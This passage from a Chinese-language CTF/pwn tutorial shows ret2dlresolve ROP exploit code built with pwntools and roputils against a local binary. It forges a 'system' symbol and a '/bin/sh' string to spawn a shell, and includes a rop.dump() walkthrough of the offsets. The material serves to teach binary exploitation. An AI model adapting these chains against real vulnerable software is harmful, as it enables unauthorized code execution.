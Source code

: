 ```python
  rop.raw('a' * align)  # padding
  rop.raw(fake_write_sym)  # fake write symbol
  rop.raw('system\x00')  # there must be a \x00 to mark the end of string
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh + '\x00')
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.interactive()
```

因为pwntools会自动对齐字符串，所以'/bin/sh'的偏移为0x52(82)

```shell
  >>> print rop.dump()
  0x0000:        0x8048380
  0x0004:           0x2528
  0x0008:           'bbbb' 'bbbb'
  0x000c:        0x804a892
  0x0010:           'bbbb' 'bbbb'
  0x0014:           'bbbb' 'bbbb'
  0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
  0x001c:  '\x07i\x02\x00'
  0x0020:           'aaaa' 'aaaaaaaa'
  0x0024:           'aaaa'
  0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
  0x002c: '\x00\x00\x00\x00'
  0x0030: '\x00\x00\x00\x00'
  0x0034: '\x12\x00\x00\x00'
  0x0038:           'syst' 'system\x00'
  0x003c:        'em\x00o'
  0x0040:             'aa'
  0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
  0x0048:           'aaaa'
  0x004c:           'aaaa'
  0x0050:           'aara'
  0x0054:           '/bin' '/bin/sh\x00'
  0x0058:        '/sh\x00'
  0x005c:           'aaaa' 'aaaaaaaaaa'
  0x0060:           'aaaa'
  0x0064:           'aaxa'
  >>> rop.chain()[80:]
  'ra/bin/sh\x00aaaaaaaaaaxa'
  >>> rop.chain()[82:]
  '/bin/sh\x00aaaaaaaaaaxa'
  >>>
```

### 使用工具

```python
  from roputils import *
  from pwn import process
  from pwn import gdb
  from pwn import context
  r = process('./main')
  context.log_level = 'debug'
  r.recv()

  rop = ROP('./main')
  offset = 112
  bss_base = rop.section('.bss')
  buf = rop.fill(offset)

  buf += rop.call('read', 0, bss_base, 100)
```